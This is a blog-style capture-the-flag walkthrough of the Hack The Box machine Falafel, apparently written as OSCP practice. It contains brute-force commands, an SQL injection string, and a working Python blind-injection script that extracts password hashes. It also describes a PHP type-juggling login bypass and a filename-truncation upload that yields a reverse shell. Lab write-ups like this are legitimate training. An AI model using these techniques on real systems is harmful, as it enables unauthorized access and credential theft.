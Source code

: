```yaml
---
title:  "Hack The Box / Falafel"
date: 2020-02-01
tags: [Penetration Testing, Hacking, Hack The Box, Jeeves, OSCP, Offensive Security]
header: 
  image: "assets/images/falafel/falafel-header.png"
---
```

Falafel is our sixth machine in the OSCP list provided by [NetSec Focus](https://www.netsecfocus.com/)! This machine was quite exotic due to its vulnerabilities and privilege escalation. Definetely some advance knowledge about php, MySQl, and linux was required, but the most of the learning came from [ipssec's](https://www.youtube.com/watch?v=CUbWpteTfio&t=) video about solving this machine. I have to say that there were easier ways to do it, but I rather to make it manually to learn how some technologies work. This is the sixth blog before my third attempt to the OSCP exam, so let's get to it!

## Information Gathering

### Nmap Scan
So, we start with a nmap scan to check what ports are open and what services are running in this machine. 

```
nmap -sC -sV -p- -oN scan.nmap 10.10.10.73
```
<img src="{{ site.url }}{{ site.baseurl }}/assets/images/falafel/nmap.png" alt="nmap scan">

Here we have two useful ports and services such as SSH running in port 22 and HTTP running in port 80. There is some information in port 80 from ```robots.txt``` where it disallows all entries with a ```.txt``` extension. So, we might want to specify the extension at the time to do directory brute force.

### Directory Brute Force
This is what we have in our browser for now.

<img src="{{ site.url }}{{ site.baseurl }}/assets/images/falafel/browser-capure.png" alt="nmap scan">

Running [dirsearch](https://github.com/maurosoria/dirsearch) we have some results!
```
./dirsearch.py -u http://10.10.10.73 -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt -f -e txt
```
<img src="{{ site.url }}{{ site.baseurl }}/assets/images/falafel/dirsearch.png" alt="nmap scan">

Let's see what we find at ```http://10.10.10.73/cyberlaw.txt```
<img src="{{ site.url }}{{ site.baseurl }}/assets/images/falafel/cyberlaw.png" alt="nmap scan">

Great, seems that some of the vector attack is related with the upload feature, here there is a username which is chris, so let's find more usernames. 

### Username Brute Force with Wfuzz
[Wfuzz](https://github.com/xmendez/wfuzz) is a pretty handy tool that can be helpful for a variety of things. In this case let's use it to do some username brute force.
```
wfuzz -c -w /usr/share/seclists/Usernames/Names/names.txt -d "username=FUZZ&password=abcd" -u http://10.10.10.73/login.php --hh 7074
```
Where:
- ```-w``` specifies the wordlist.
- ```-d``` the parameter to brute force
- ```-u``` URL of the target
- ```-hh``` hide results with code 7074

<img src="{{ site.url }}{{ site.baseurl }}/assets/images/falafel/wfuzz.png" alt="nmap scan">

So we have two valid users which are __chris and admin__.

### SQL Injection to Dump Hash From Database
We can dump the whole database using the powerfull [sqlmap](http://sqlmap.org/), but that's not the idea because the learning will be gone. What we do here is try to analize the HTTP request from the login page and try to find out the correct SQL sintax that will grant us the access. To do this, the usage of [BurpSuite](https://portswigger.net/burp/communitydownload) will be crucial. So let's get to it. 

<img src="{{ site.url }}{{ site.baseurl }}/assets/images/falafel/correct-user.png" alt="nmap scan">

In the repeater from Burpsuite we see that once we go with the right username, we obtain in the response ```Wronf identification : admin``` and the size of the response is ```7,397``` bytes. Saying that, let's see how is the response if we go with the wrong user. 

<img src="{{ site.url }}{{ site.baseurl }}/assets/images/falafel/wrong-user.png" alt="nmap scan">

Then, we see the response ```Try again...``` and the size of this response is ```7,376``` bytes. Now knowing the size of a correct and wrong response, let's try different SQL sintax to see if we get the correct one. 
- __Note:__ There were countless tries before attempting this were most of the SQL sintax came from [SecLists](https://github.com/danielmiessler/SecLists). Also keep in mind what kind of SQL database the target is using. 

<img src="{{ site.url }}{{ site.baseurl }}/assets/images/falafel/sql-sintax.png" alt="nmap scan">

Knowing that the sintax gave us a positive answer and that the hash for admin starts with ```0e``` we can create a python script that will get the hash for us. Before this, get in mind the SQL sintax used. 
```
admin' and password like '0e%'-- -
```

#### Python Script
~~~python
import requests

chars = [0,1,2,3,4,5,6,7,8,9,'a','b','c','d','e','f'] # Just hex characters.

def GetSQL(i,c): # Getting proper SQL sintax using the chars. 
    return "chris' and substr(password,%s,1) = '%s'-- -" % (i,c)

for i in range(1,33): # Try to discover the hash
    for c in chars:
        injection = GetSQL(i,c)
        payload = {'username':injection, 'password':'password'}
        r = requests.post('http://10.10.10.73/login.php', data = payload)
        if "Wrong identification" in r.text:
            print(c, end='',flush=True)
            break
print()
~~~

So, basically with this script we'll try all the characters untill one of the gets the correct answer which is ```Wrong identification``` then it prints the correct character untill we got the final hash. Here, we're specifying the user ```chris``` but we can do it with the user ```admin``` as well. This is the hash that has been gotten from ```chris```.

- __chris' hash:__ d4ee02a22fc872e36d9e3751ba72ddc8

<img src="{{ site.url }}{{ site.baseurl }}/assets/images/falafel/hash-gotten.png" alt="nmap scan">

Once the hash has been gotten, we go to [CrackStation](https://crackstation.net/) and this is the result. 

<img src="{{ site.url }}{{ site.baseurl }}/assets/images/falafel/hash-cracked.png" alt="nmap scan">

Which menas ```chris:juggling```, and this is what we get once we log in. 

<img src="{{ site.url }}{{ site.baseurl }}/assets/images/falafel/chris-login.png" alt="nmap scan">

Interesting, but no upload feauture, let's try with ```admin```.

<img src="{{ site.url }}{{ site.baseurl }}/assets/images/falafel/admin-hash.png" alt="nmap scan">

So this is the has gotten for ```admin``` user: 0e462096931906507119562988736854. And unfortunately __there is no results in CrackStation__, so looking for more resources, it seems to be some kind of php juggling, so for this we might google something like ```php 0e hash collision``` and we'll see that we can log in with a md5 hash where in this case we used this ```240610708``` and we are in.

<img src="{{ site.url }}{{ site.baseurl }}/assets/images/falafel/upload-feauture.png" alt="nmap scan">

and wolah! Here it is the upload feature!

### Reverse Shell

Here is where another countless attempts came. So, there was only attempts to upload images then I tried everything including [exiftool](https://exiftool.org/) to get a reverse shell, but I was not looking at the big picture wich was [wget](https://www.gnu.org/software/wget/) and its limit for characters. So, googling ```maximum character length accepted by wget``` it came with this answer. 

<img src="{{ site.url }}{{ site.baseurl }}/assets/images/falafel/wget-lenght.png" alt="nmap scan">

Then it's only accepted character where its name is under 255 characters. Then let's see how it can be shorter with our target. Let's create a pattern and see how it affects. 
```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 50
```
after obtaining our answer we might delete 4 character in order to put our extension for images which is ```.gif``` and try to see how it goes. 

<img src="{{ site.url }}{{ site.baseurl }}/assets/images/falafel/maximum.png" alt="nmap scan">

And this is the new lenght gotten from the from Falafel. 

<img src="{{ site.url }}{{ site.baseurl }}/assets/images/falafel/new-lenght.png" alt="nmap scan">
 
 So, let's count it!

 <img src="{{ site.url }}{{ site.baseurl }}/assets/images/falafel/count-new-lenght.png" alt="nmap scan">

 Once we upload the file they make it shorter to 236 character, so we might add 4 characters more in order to make it 240 so we can uploaded in image for and when it gets shorter is going to be our php reverse shell. 
 - Example: 
    - Before uploading = .php.gif
    - After uplpadeing = .php (because of the 4 bytes shorter)

So, let's set up our python HTTP server and upload our reverse shell gotten from [PentestMonkey](http://pentestmonkey.net/tools/web-shells/php-reverse-shell). So this is before uploading.

 <img src="{{ site.url }}{{ site.baseurl }}/assets/images/falafel/before-shell.png" alt="nmap scan">

This is the size and the extension ```.php``` after it was uploaded and shorter. 

 <img src="{{ site.url }}{{ site.baseurl }}/assets/images/falafel/before-shell-2.png" alt="nmap scan">

And we go to the directory where it was uploaded, we got a shell!

 <img src="{{ site.url }}{{ site.baseurl }}/assets/images/falafel/shell-gotten.png" alt="nmap scan">
